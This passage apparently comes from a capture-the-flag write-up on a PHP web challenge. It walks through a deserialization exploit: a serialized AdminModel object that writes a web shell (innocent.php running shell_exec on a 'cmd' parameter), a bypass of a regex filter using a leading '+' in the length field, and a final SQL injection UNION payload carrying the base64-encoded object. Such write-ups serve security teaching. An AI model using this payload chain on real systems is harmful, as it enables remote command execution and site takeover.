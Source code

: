 ```php
```

This is a great target for the deserialization. We could inject a payload like:

```php
O:10:"AdminModel":2:{s:8:"filename";s:12:"innocent.php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

This would create a PHP file named `innocent.php` executing arbitrary commands given via the URL parameter `cmd`.


```php
if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
    return 'Not allowed';
}
```

The regex checks for strings starting with the prefix `O:`, followed by some digits and an arbitrary string. There are several data types you can deserialize, like integer, boolean, arrays, but also custom objects by starting with `C:`. Sadly, custom objects are not applicable in this case as none of the PHP classes implement Serializable.

### Regex Bypass Discovery

There must be another way to bypass the regex. The code is the best documentation, so let's dive into the implementation of PHP unserialize. We have to be careful with the version as the challenge uses PHP v7.1.

For the implementation, PHP uses the **re2c lexer generator**. The length value `uiv` of the serialized object is parsed by the `parse_uiv` function, which implements some interesting behavior: **If it exists, it will skip a leading `+` character**.

With this information, we can easily bypass the regex as it only checks for digits in the uiv part.

## 5. Exploitation

Now we have to chain our vulnerabilities. For the unserialize call, we will use the following payload, which is very similar to the already mentioned one, but this time we add a `+` before the uiv part:

```php
O:+10:"AdminModel":2:{s:8:"filename";s:12:"innocent.php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

### Final Payload Chain

Because of the implementation of the `oldvalue` check, we have to encode it with base64. Adding it to our SQL injection, we get our final payload:

```sql
500 UNION SELECT 0 AS id, 'payload' AS name, 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTI6Imlubm9jZW50LnBocCI7czoxMDoibG9nY29udGVudCI7czozNzoiPD9waHAgZWNobyhzaGVsbF9leGVjKCRfR0VUWydjbWQnXSkpOyI7fQ==' AS oldvalue, 0 AS price;
```
